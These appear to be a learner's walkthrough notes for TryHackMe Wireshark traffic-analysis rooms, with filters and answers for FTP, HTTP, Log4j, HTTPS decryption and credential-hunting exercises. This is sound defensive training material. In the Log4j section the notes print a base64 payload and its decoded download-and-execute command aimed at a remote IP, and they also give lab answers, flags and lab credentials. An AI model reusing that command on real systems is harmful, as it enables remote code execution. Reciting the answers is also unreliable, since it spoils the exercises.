**Questions**

Use the "Desktop/exercise-pcaps/dns-icmp/icmp-tunnel.pcap" file.

Investigate the anomalous packets. Which protocol is used in ICMP tunnelling?

- `data.len > 64 and icmp`
- Hint: 1) Remember, Wireshark is not an IDS/IPS tool. A security analyst should know how to filter the packets and investigate the results manually. 2) Filtering anomalous packets and investigating the packet details (including payload data) could help.
- Examin each packet looking for protocols -> packet 42 
- SSH can be seen in the display
- SSH

Use the "Desktop/exercise-pcaps/dns-icmp/dns.pcap" file.

Investigate the anomalous packets. What is the suspicious main domain address that receives anomalous DNS queries? (Enter the address in defanged format.)

- `dns`
- add the DNS name field as a column -> scroll through names
- dataexfil[.]com is at the end of long string of random numbers
- dataexfil[.]com

## _**6: Cleartext Protocol Analysis: FTP**_

**Cleartext Protocol Analysis** 

Investigating cleartext protocol traces sounds easy, but when the time comes to investigate a big network trace for incident analysis and response, the game changes. Proper analysis is more than following the stream and reading the cleartext data. For a security analyst, it is important to create statistics and key results from the investigation process. As mentioned earlier at the beginning of the Wireshark room series, the analyst should have the required network knowledge and tool skills to accomplish this. Let's simulate a cleartext protocol investigation with Wireshark!

**FTP Analysis**

File Transfer Protocol (FTP) is designed to transfer files with ease, so it focuses on simplicity rather than security. As a result of this, using this protocol in unsecured environments could create security issues like:

- MITM attacks
- Credential stealing and unauthorised access
- Phishing
- Malware planting
- Data exfiltration

FTP analysis in a nutshell:

<table class="table table-bordered"><tbody><tr><td><b>Notes</b></td><td><b>Wireshark Filter</b></td></tr><tr><td>Global search</td><td><ul><li style="text-align:left"><code>ftp</code></li></ul></td></tr><tr><td style="text-align:left">
<b>"FTP"</b> options for grabbing the low-hanging fruit:
<ul><li><b>x1x series:</b> Information request responses.</li><li><b>x2x series: </b>Connection messages.</li><li><b>x3x series:</b> Authentication messages.</li></ul>
<b>Note:</b> "200" means command successful.
</td><td><b>---</b></td></tr><tr><td style="text-align:left">
"x1x"&nbsp;series options for grabbing the low-hanging fruit:
<ul><li><b>211: </b>System status.</li><li><b>212:</b> Directory status.</li><li><b>213:</b> File status</li></ul></td><td><ul><li style="text-align:left"><code>ftp.response.code == 211</code>&nbsp;</li></ul></td></tr><tr><td style="text-align:left">
"x2x"&nbsp;series options for grabbing the low-hanging fruit:
<ul><li><b>220:</b> Service ready.</li><li><b>227:</b> Entering passive mode.</li><li><b>228:</b> Long passive mode.</li><li><b>229:</b> Extended passive mode.</li></ul></td><td><ul><li style="text-align:left"><code>ftp.response.code == 227</code></li></ul></td></tr><tr><td style="text-align:left">
"x3x"&nbsp;series options for grabbing the low-hanging fruit:
<ul><li><b>230:</b> User login.</li><li><b>231:</b> User logout.</li><li><b>331:</b> Valid username.</li><li><b>430:</b> Invalid username or password</li><li><b>530:</b> No login, invalid password.</li></ul></td><td><ul><li style="text-align:left"><code>ftp.response.code == 230</code></li></ul></td></tr><tr><td style="text-align:left">
"FTP"&nbsp;commands for grabbing the low-hanging fruit:
<ul><li><b>USER:</b> Username.</li><li><b>PASS: </b>Password.</li><li><b>CWD:</b> Current work directory.</li><li><b>LIST:</b> List.</li></ul></td><td><ul><li style="text-align:left"><code>ftp.request.command == "USER"</code></li></ul><ul><li style="text-align:left"><code>ftp.request.command == "PASS"</code></li></ul><ul><li style="text-align:left"><code>ftp.request.arg == "password"</code></li></ul></td></tr><tr><td style="text-align:left">
Advanced usages examples for grabbing low-hanging fruit:
<ul><li><b>Bruteforce signal:</b> List failed login attempts.</li><li><b>Bruteforce signal:</b> List target username.</li><li><b>Password spray signal:</b> List targets for a static password. </li></ul></td><td><ul><li style="text-align:left"><code>ftp.response.code == 530</code></li></ul><ul><li style="text-align:left"><code>(ftp.response.code == 530) and (ftp.response.arg contains "username")</code></li></ul><ul><li style="text-align:left"><code>(ftp.request.command == "PASS" ) and (ftp.request.arg == "password")</code></li></ul></td></tr></tbody></table>

Detecting suspicious activities in chunked files is easy and a great way to learn how to focus on the details. Now use the exercise files to put your skills into practice against a single capture file and answer the questions below!

**Questions**

Use the "Desktop/exercise-pcaps/ftp/ftp.pcap" file.

How many incorrect login attempts are there?

- `ftp.response.code == 530`
- 737

What is the size of the file accessed by the "ftp" account?

- `ftp.response.code == 213`
- Only 2 responses, I couldn't see an "ftp" account, tried the first response for the answer
- 39424

- second method `ftp contains "ftp"`
- right click first frame with USER ftp and apply a conversation filter using TCP
- Scroll down and find "Request: SIZE" and below that is the response. 

The adversary uploaded a document to the FTP server. What is the filename?

- `ftp`
- found "Response: 226 Transfer complete", filtered on that
- `ftp.response.arg == "Transfer complete."`
- 4 responses but no name, went back to the ftp filter and looked around those 4 frames for file names. Couldn't find a put command but found a file name under a RETR or retrieve. 
- resume.doc

The adversary tried to assign special flags to change the executing permissions of the uploaded file. What is the command used by the adversary?

- `ftp.request.arg contains "resume.doc"`
- CHMOD 777

## _**7: Cleartext Protocol Analysis: HTTP**_

**HTTP Analysis**

Hypertext Transfer Protocol (HTTP) is a cleartext-based, request-response and client-server protocol. It is the standard type of network activity to request/serve web pages, and by default, it is not blocked by any network perimeter. As a result of being unencrypted and the backbone of web traffic, HTTP is one of the must know protocols in traffic analysis. Following attacks could be detected with the help of HTTP analysis:

  

- Phishing pages
- Web attacks
- Data exfiltration
- Command and control traffic (C2)

HTTP analysis in a nutshell:

<table class="table table-bordered"><tbody><tr><td><b>Notes</b></td><td><b>Wireshark Filter</b></td></tr><tr><td>
Global search

<b>Note:</b>HTTP2 is a revision of the HTTP protocol for better performance and security. It supports binary data transfer and request &amp; response multiplexing.
</td><td><ul><li style="text-align:left"><code>http</code></li></ul><ul><li style="text-align:left"><code>http2</code></li></ul></td></tr><tr><td>
"HTTP<b>&nbsp;Request Methods"</b> for grabbing the low-hanging fruits:
<ul><li style="text-align:left">GET</li><li style="text-align:left">POST</li><li style="text-align:left">Request: Listing all requests</li></ul>
 
</td><td><ul><li style="text-align:left"><code>http.request.method == "GET"</code></li></ul><ul><li style="text-align:left"><code>http.request.method == "POST"</code></li></ul><ul><li style="text-align:left"><code>http.request</code></li></ul></td></tr><tr><td>
"HTTP&nbsp;Response Status Codes"&nbsp;for grabbing the low-hanging fruits:
<ul><li style="text-align:left"><b>200 OK:</b> Request successful.</li><li style="text-align:left"><b>301 Moved Permanently: </b>Resource is moved to a new URL/path (permanently).</li><li style="text-align:left"><b>302 Moved Temporarily:</b> Resource is moved to a new URL/path (temporarily).</li><li style="text-align:left"><b>400 Bad Request:</b> Server didn't understand the request.</li><li style="text-align:left"><b>401 Unauthorised: </b>URL needs authorisation (login, etc.).</li><li style="text-align:left"><b>403 Forbidden:</b> No access to the requested URL.&nbsp;</li><li style="text-align:left"><b>404 Not Found:</b> Server can't find the requested URL.</li><li style="text-align:left"><b>405 Method Not Allowed: </b>Used method is not suitable or blocked.</li><li style="text-align:left"><b>408 Request Timeout:</b>&nbsp; Request look longer than server wait time.</li><li style="text-align:left"><b>500 Internal Server Error: </b>Request not completed, unexpected error.</li><li style="text-align:left"><b>503 Service Unavailable:</b> Request not completed server or service is down.</li></ul></td><td><ul><li style="text-align:left"><code>http.response.code == 200</code></li></ul><ul><li style="text-align:left"><code>http.response.code == 401</code></li></ul><ul><li style="text-align:left"><code>http.response.code == 403</code></li></ul><ul><li style="text-align:left"><code>http.response.code == 404</code></li></ul><ul><li style="text-align:left"><code>http.response.code == 405</code></li></ul><ul><li style="text-align:left"><code>http.response.code == 503</code></li></ul></td></tr><tr><td>
"HTTP&nbsp;Parameters"&nbsp;for grabbing the low-hanging fruits:
<ul><li style="text-align:left"><b>User agent:</b> Browser and operating system identification to a web server application.</li><li style="text-align:left"><b style="font-size:1rem">Request URI:</b> Points the requested resource from the server. </li><li style="text-align:left"><b>Full *URI: </b>Complete URI information.</li></ul>
<b>*URI: </b>Uniform Resource Identifier.
</td><td><ul><li style="text-align:left"><code>http.user_agent contains "nmap"</code></li></ul><ul><li style="text-align:left"><code>http.request.uri contains "admin"</code></li></ul><ul><li style="text-align:left"><code>http.request.full_uri contains "admin"</code></li></ul></td></tr><tr><td>
"HTTP&nbsp;Parameters"&nbsp;for grabbing the low-hanging fruits:
<ul><li style="text-align:left"><b>Server: </b>Server service name. </li><li style="text-align:left"><b>Host:</b> Hostname of the server</li><li style="text-align:left"><b>Connection:</b> Connection status. </li><li style="text-align:left"><b>Line-based text data:</b> Cleartext data provided by the server.</li><li style="text-align:left"><b>HTML Form URL Encoded:</b> Web form information.</li></ul></td><td><ul><li style="text-align:left"><code>http.server contains "apache"</code></li></ul><ul><li style="text-align:left"><code>http.host contains "keyword"</code></li></ul><ul><li style="text-align:left"><code>http.host == "keyword"</code></li></ul><ul><li style="text-align:left"><code>http.connection == "Keep-Alive"</code></li></ul><ul><li style="text-align:left"><code>data-text-lines contains "keyword"</code></li></ul></td></tr></tbody></table>

User Agent Analysis   

As the adversaries use sophisticated technics to accomplish attacks, they try to leave traces similar to natural traffic through the known and trusted protocols. For a security analyst, it is important to spot the anomaly signs on the bits and pieces of the packets. The "user-agent" field is one of the great resources for spotting anomalies in HTTP traffic. In some cases, adversaries successfully modify the user-agent data, which could look super natural. A security analyst cannot rely only on the user-agent field to spot an anomaly. Never whitelist a user agent, even if it looks natural. User agent-based anomaly/threat detection/hunting is an additional data source to check and is useful when there is an obvious anomaly. If you are unsure about a value, you can conduct a web search to validate your findings with the default and normal user-agent info ([**example site**](https://developers.whatismybrowser.com/useragents/explore/)).

  

User Agent analysis in a nutshell:  

<table class="table table-bordered"><tbody><tr><td><b>Notes</b></td><td><b>Wireshark Filter</b></td></tr><tr><td>Global search.</td><td><ul><li style="text-align:left"><code>http.user_agent</code></li></ul></td></tr><tr><td>
Research outcomes&nbsp;for grabbing the low-hanging fruits:
<ul><li style="text-align:left">Different user agent information from the same host in a short time notice.</li><li style="text-align:left">Non-standard and custom user agent info.</li><li style="text-align:left">Subtle spelling differences. <b>("Mozilla" is not the same as&nbsp; "Mozlilla" or "Mozlila")</b></li><li style="text-align:left">Audit tools info like Nmap, Nikto, Wfuzz and sqlmap in the user agent field.</li><li style="text-align:left">Payload data in the user agent field.</li></ul></td><td><ul><li style="text-align:left"><code>(http.user_agent contains "sqlmap") or (http.user_agent contains "Nmap") or (http.user_agent contains "Wfuzz") or (http.user_agent contains "Nikto")</code></li></ul></td></tr></tbody></table>

**Log4j Analysis**

A proper investigation starts with prior research on threats and anomalies going to be hunted. Let's review the knowns on the "Log4j" attack before launching Wireshark.  

Log4j vulnerability analysis in a nutshell:  

<table class="table table-bordered"><tbody><tr><td><b>Notes</b></td><td><b>Wireshark Filters</b></td></tr><tr><td>

<b>Research outcomes&nbsp;</b>for grabbing the low-hanging fruits:
<ul style="text-align:center"><li style="text-align:left">The attack starts with a "POST" request</li><li style="text-align:left">There are known cleartext patterns: "<b>jndi:ldap</b>" and "<b>Exploit.class</b>".</li></ul>
</td><td><ul><li style="text-align:left"><code style="font-size:14px">http.request.method == "POST"</code></li></ul><ul><li style="text-align:left"><code style="font-size:14px">(ip contains "jndi") or ( ip contains "Exploit")</code></li></ul><ul><li style="text-align:left"><code>(frame contains "jndi") or ( frame contains "Exploit")</code></li></ul><ul><li style="text-align:left"><code>(http.user_agent contains "$") or (http.user_agent contains "==")</code></li></ul></td></tr></tbody></table>

Detecting suspicious activities in chunked files is easy and a great way to learn how to focus on the details. Now use the exercise files to put your skills into practice against a single capture file and answer the questions below!

**Questions**

Use the "Desktop/exercise-pcaps/http/user-agent.cap" file.

Investigate the user agents. What is the number of anomalous  "user-agent" types?

- 1) The answer is not the number of packets. It is the number of anomalous user-agent types. You need to filter the "user agent" info "as a column" and conduct a manual investigation of the packet details to spot the anomalies. 2) In addition to the obvious "non-standard" and modified user agent types: Does "Windows NT 6.4" exist?
- Windows NT 6.4, Nmap, Wfuzz, sqlmap, jndi, Mozlila (frame 52)
- 6 total, would be easier in TShark using unique filter

What is the packet number with a subtle spelling difference in the user agent field?

- 52 which was found earlier

Use the "Desktop/exercise-pcaps/http/http.pcapng" file.
Locate the "Log4j" attack starting phase. What is the packet number?

- `http contains jndi`
- 444

Locate the "Log4j" attack starting phase and decode the base64 command. What is the IP address contacted by the adversary? (Enter the address in defanged format and exclude "{}".)

- on frame 444 `right click User-Agent -> copy -> value` and decode on [cyberchef.org](https://cyberchef.org/) website after removing the unneeded parts of the value.
- 62[.]210[.]130[.]250
- can also be decrypted on the device by creating a file with the base64 string. 
- `vi base64.txt` -> paste string `i` to insert `esc :wq` to save
- `{d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==}` -> added first and last characters for safety
- `base64 -d base64.txt`
- `wget http://62[.]210[.]130[.]250/lh.sh;chmod +x lh.sh;./lh.sh` -> I added the [defang] into this output for safety.
  

## _**8: Encrypted Protocol Analysis: Decrypting HTTPS**_

**Decrypting HTTPS Traffic**

When investigating web traffic, analysts often run across encrypted traffic. This is caused by using the Hypertext Transfer Protocol Secure (HTTPS) protocol for enhanced security against spoofing, sniffing and intercepting attacks. HTTPS uses TLS protocol to encrypt communications, so it is impossible to decrypt the traffic and view the transferred data without having the encryption/decryption key pairs. As this protocol provides a good level of security for transmitting sensitive data, attackers and malicious websites also use HTTPS. Therefore, a security analyst should know how to use key files to decrypt encrypted traffic and investigate the traffic activity.

The packets will appear in different colours as the HTTP traffic is encrypted. Also, protocol and info details (actual URL address and data returned from the server) will not be fully visible. The first image below shows the HTTP packets encrypted with the TLS protocol. The second and third images demonstrate filtering HTTP packets without using a key log file.

Additional information for HTTPS :  

<table class="table table-bordered"><tbody><tr><td>Notes</td><td>Wireshark Filter</td></tr><tr><td>
"HTTPS&nbsp;Parameters"&nbsp;for grabbing the low-hanging fruits:
<ul><li style="text-align:left"><b style="font-size:1rem">Request: </b>Listing all requests </li><li style="text-align:left"><b>TLS:</b> Global TLS search</li><li style="text-align:left">TLS Client Request</li><li style="text-align:left">TLS Server response</li><li style="text-align:left">Local Simple Service Discovery Protocol (SSDP)</li></ul>
<b>Note:</b>&nbsp;SSDP is a network protocol that provides advertisement and discovery of network services.
</td><td><ul><li style="text-align:left"><code style="font-size:14px">http.request</code></li></ul><ul><li style="text-align:left"><code style="font-size:14px">tls</code></li></ul><ul><li style="text-align:left"><code style="font-size:14px">tls.handshake.type == 1</code></li></ul><ul><li style="text-align:left"><code style="font-size:14px">tls.handshake.type == 2</code></li></ul><ul><li style="text-align:left"><code style="font-size:14px">ssdp</code></li></ul></td></tr></tbody></table>

Similar to the TCP three-way handshake process, the TLS protocol has its handshake process. The first two steps contain "Client Hello" and "Server Hello" messages. The given filters show the initial hello packets in a capture file. These filters are helpful to spot which IP addresses are involved in the TLS handshake.  

- Client Hello: `(http.request or tls.handshake.type == 1) and !(ssdp)` 
- Server Hello: `(http.request or tls.handshake.type == 2) and !(ssdp)`

An encryption key log file is a text file that contains unique key pairs to decrypt the encrypted traffic session. These key pairs are automatically created (per session) when a connection is established with an SSL/TLS-enabled webpage. As these processes are all accomplished in the browser, you need to configure your system and use a suitable browser (Chrome and Firefox support this) to save these values as a key log file. To do this, you will need to set up an environment variable and create the SSLKEYLOGFILE, and the browser will dump the keys to this file as you browse the web. SSL/TLS key pairs are created per session at the connection time, so it is important to dump the keys during the traffic capture. Otherwise, it is not possible to create/generate a suitable key log file to decrypt captured traffic. You can use the "right-click" menu or "Edit --> Preferences --> Protocols --> TLS" menu to add/remove key log files.

Adding key log files with the "right-click" menu:

Adding key log files with the "Edit --> Preferences --> Protocols --> TLS" menu:

Viewing the traffic with/without the key log files:

The above image shows that the traffic details are visible after using the key log file. Note that the packet details and bytes pane provides the data in different formats for investigation. Decompressed header info and HTTP2 packet details are available after decrypting the traffic. Depending on the packet details, you can also have the following data formats:

- Frame
- Decrypted TLS
- Decompressed Header
- Reassembled TCP
- Reassembled SSL

Detecting suspicious activities in chunked files is easy and a great way to learn how to focus on the details. Now use the exercise files to put your skills into practice against a single capture file and answer the questions below!

**Questions**

Use the "Desktop/exercise-pcaps/https/Exercise.pcap" file.

What is the frame number of the "Client Hello" message sent to "accounts.google.com"?

- `(http.request or tls.handshake.type == 1) and !(ssdp)`
- `((http.request or tls.handshake.type == 1) and !(ssdp)) && (tls.handshake.extensions_server_name == "accounts.google.com")`
- Looked in a frame to find a server name and then added that to the filter
- 16
- Hint from THM: "Protocol Details Pane --> TLS --> Handshake Protocol --> Extension: server_name" can help.

Decrypt the traffic with the "KeysLogFile.txt" file. What is the number of HTTP2 packets?

- `http2`
- 115

Go to Frame 322. What is the authority header of the HTTP2 packet? (Enter the address in defanged format.)

- safebrowsing[.]googleapis[.]com

Investigate the decrypted packets and find the flag! What is the flag?

- remove previous filters
- click search (magnifiying glass) -> Packet details -> Narrow (UTF-8/ASCII) -> String -> `flag{` -> find
- FLAG{THM-PACKETMASTER}

## _**9: Bonus: Hunt Cleartext Credentials!**_

Up to here, we discussed how to inspect the packets for specific conditions and spot anomalies. As mentioned in the first room, Wireshark is not an IDS, but it provides suggestions for some cases under the expert info. However, sometimes anomalies replicate the legitimate traffic, so the detection becomes harder. For example, in a cleartext credential hunting case, it is not easy to spot the multiple credential inputs and decide if there is a brute-force attack or if it is a standard user who mistyped their credentials.

As everything is presented at the packet level, it is hard to spot the multiple username/password entries at first glance. The detection time will decrease when an analyst can view the credential entries as a list. Wireshark has such a feature to help analysts who want to hunt cleartext credential entries.

Some Wireshark dissectors (FTP, HTTP, IMAP, pop and SMTP) are programmed to extract cleartext passwords from the capture file. You can view detected credentials using the **"Tools --> Credentials"** menu. This feature works only after specific versions of Wireshark (v3.1 and later). Since the feature works only with particular protocols, it is suggested to have manual checks and not entirely rely on this feature to decide if there is a cleartext credential in the traffic.

Once you use the feature, it will open a new window and provide detected credentials. It will show the packet number, protocol, username and additional information. This window is clickable; clicking on the packet number will select the packet containing the password, and clicking on the username will select the packet containing the username info. The additional part prompts the packet number that contains the username.

**Questions**

Use the "Desktop/exercise-pcaps/bonus/Bonus-exercise.pcap" file.

What is the packet number of the credentials using "HTTP Basic Auth"?

- Tools -> Credentials
-237

What is the packet number where "empty password" was submitted?

- Click on each Packet Number and it will jump to that frame without closing the window
- 170

## _**10: Bonus: Actionable Results!**_

You have investigated the traffic, detected anomalies and created notes for further investigation. What is next? Not every case investigation is carried out by a crowd team. As a security analyst, there will be some cases you need to spot the anomaly, identify the source and take action. Wireshark is not all about packet details; it can help you to create firewall rules ready to implement with a couple of clicks. You can create firewall rules by using the **"Tools --> Firewall ACL Rules"** menu. Once you use this feature, it will open a new window and provide a combination of rules (IP, port and MAC address-based) for different purposes. Note that these rules are generated for implementation on an outside firewall interface.  

Currently, Wireshark can create rules for:

- Netfilter (iptables)
- Cisco IOS (standard/extended)
- IP Filter (ipfilter)
- IPFirewall (ipfw)
- Packet filter (pf)
- Windows Firewall (netsh new/old format)

**Questions**

Use the "Desktop/exercise-pcaps/bonus/Bonus-exercise.pcap" file.

Select packet number 99. Create a rule for "IPFirewall (ipfw)". What is the rule for "denying source IPv4 address"?

- select packet 99
- Tools -> Firewall ACL Rules
- Create rules for IPFirewall (ipfw)
- `add deny ip from 10.121.70.151 to any in`

Select packet number 231. Create "IPFirewall" rules. What is the rule for "allowing destination MAC address"?

- select packet 231
- Tools -> Firewall ACL Rules
- Create rules for IPFirewall (ipfw)
- uncheck Deny
- `add allow MAC 00:d0:59:aa:af:80 any in`

## _**11: Conclusion**_

Congratulations! You just finished the "Wireshark: The Traffic Analysis" room.

In this room, we covered how to use the Wireshark to detect anomalies and investigate events of interest at the packet level. Now, we invite you to complete the Wireshark challenge room: [**Carnage**](https://tryhackme.com/room/c2carnage), [**Warzone 1**](https://tryhackme.com/room/warzoneone) and [**Warzone 2**](https://tryhackme.com/room/warzonetwo).

Wireshark is a good tool for starting a network security investigation. However, it is not enough to stop the threats. A security analyst should have IDS/IPS knowledge and extended tool skills to detect and prevent anomalies and threats. As the attacks are getting more sophisticated consistently, the use of multiple tools and detection strategies becomes a requirement. The following rooms will help you step forward in network traffic analysis and anomaly/threat detection.  

- [**NetworkMiner**](https://tryhackme.com/room/networkminer)
- [**Snort**](https://tryhackme.com/room/snort)
- [**Snort Challenge -  The Basics**](https://tryhackme.com/room/snortchallenges1)
- [**Snort Challenge - Live Attacks**](https://tryhackme.com/room/snortchallenges2)
- [**Zeek**](https://tryhackme.com/room/zeekbro)
- [**Zeek Exercises**](https://tryhackme.com/room/zeekbroexercises)
- [**Brim**](https://tryhackme.com/room/brim)

# Wireshark Filters

This is a hidden room and I found it on the Chris Greer YouTube channel. 

[Video](https://youtu.be/-MLkdg4s4ew)

[Wireshark Filters Room](https://tryhackme.com/room/wiresharkfilters)

## _**1: Introduction**_

Filtering traffic is an important skill to master with Wireshark. After all, we can capture millions of packets on a busy network in just a few minutes. Finding meaningful network traffic can be like finding a needle in a haystack. 

This room is designed to hone your skills with Wireshark display filters. We will start at the basics - IP address, TCP port number, protocol filtering, then progress to more complex filters, like identifying open ports, usernames and passwords, or TCP behaviors that look a little strange.

Note that display filters are not the same as capture filters. Capture filters only collect the specified traffic on the network and can be applied in Wireshark on the initial screen. They are much simpler than display filters and use a different syntax. For more information on capture filters, see here - [https://wiki.wireshark.org/CaptureFilters](https://wiki.wireshark.org/CaptureFilters)

**Accessing The Task Files**

The PCAP files for each task can be downloaded directly and opened locally in Wireshark on your machine. To successfully complete all the tasks, you will need version 3.6 or later. Alternately, you can access the VM and the files using OpenVPN.

- Start the VM using the button above
- RDP to the machine using OpenVPN or the AttackBox
- The login information is - Username: `thm` Password: `tryhackme`

The PCAP files are located in the Task Files folder on the desktop. Fire up Wireshark on the VM and let's get to it!

Note:

Just a note before we dive in - we understand that Wireshark display filters can be difficult to remember. That is why it can be difficult to find the packets you are looking for. Don't forget that Wireshark helps you with a built-in cheat sheet! When you select a field in a packet, look at the bottom left of the display. You will find the syntax for filtering on the header location that you selected (see where it says tcp.flags.syn below). This is a great way to remember how to set a filter and learn new ones.

Let's dig.

## _**2: Protocol Filters**_

